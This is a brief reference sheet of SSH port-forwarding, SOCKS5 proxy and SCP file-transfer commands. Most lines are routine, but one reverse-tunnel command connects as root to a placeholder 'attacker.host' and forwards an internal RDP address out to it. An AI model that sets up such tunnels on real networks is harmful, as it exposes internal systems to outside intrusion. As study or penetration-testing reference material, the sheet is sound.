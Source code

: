 #### port forward
-----
```ssh -L 8443:127.0.0.1:8443 user@remote.host```

```ssh -l root -t -t -R 3389:10.10.10.1:3398 attacker.host```

```ssh -i id_rsa.key -L6969:machine.to.touch:80 machine.for.proxy```


#### port forward SOCKS5
-----
```ssh -D 5555 user@yourserver.com -p 5555```


#### SCP transfers
-----
*Local (file) to remote host specifying remote port*

```scp -P 1337 file.zip username@remotehost.com:/remote/dir/file.zip```

*Local (directory) to remote host using default port 22*

```scp /local/dir/ username@remotehost.com:/remote/dir/```

*Remote host A to remote host B*

```scp username@host-a.com:/host_a/dir/file.zip username@host-b.com:/host_b/dir/file.zip```
